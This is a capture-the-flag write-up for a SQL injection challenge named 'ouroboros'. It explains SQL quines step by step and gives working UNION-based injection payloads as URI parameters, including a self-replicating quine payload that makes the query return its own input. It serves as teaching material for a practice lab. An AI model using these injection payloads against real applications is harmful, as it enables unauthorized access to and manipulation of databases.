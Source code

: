 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 29
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - ,CHAR(36),"$") AS Quine', Char(34), Char(39)), Char(36), 'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `CHAR(34)` (double quote `"` character) with `CHAR(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - ,Char(36),"$") AS Quine', Char(34), Char(39)), Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `CHAR(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\',
CHAR(34),CHAR(39)),CHAR(36),
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\',
CHAR(34), CHAR(39)), CHAR(36),
\'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine',
CHAR(34), CHAR(39)), CHAR(36),
'SELECT Replace(Replace("$",CHAR(34),CHAR(39)),CHAR(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
